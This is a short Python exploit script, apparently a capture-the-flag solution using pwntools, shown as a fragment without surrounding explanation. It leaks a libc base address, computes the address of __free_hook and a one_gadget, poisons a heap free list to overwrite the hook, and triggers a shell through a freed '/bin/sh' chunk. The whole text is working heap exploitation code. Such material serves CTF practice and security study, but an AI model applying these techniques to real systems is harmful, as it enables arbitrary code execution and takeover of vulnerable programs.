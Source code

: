 ```python
add('g', payload)

remove('b')
for _ in range(7):
    remove('')
add('b', 'b')

edit(1, 'a'*8)
p.recvuntil('b: aaaaaaaa')
libc_base = u64(p.recvline()[:-1].ljust(8, '\x00')) - 0x3ebd50
free_hook = libc_base + libc.symbols['__free_hook']
one_gadget = libc_base + 0x4f322
print "libc_base: %#x" % libc_base
print "free_hook: %#x" % free_hook
edit(1, p64(0))

remove('a')
remove('')
add('a', p64(free_hook))
add('t', '/bin/sh\x00')
add('p', p64(one_gadget))

remove('t')

p.interactive()
```
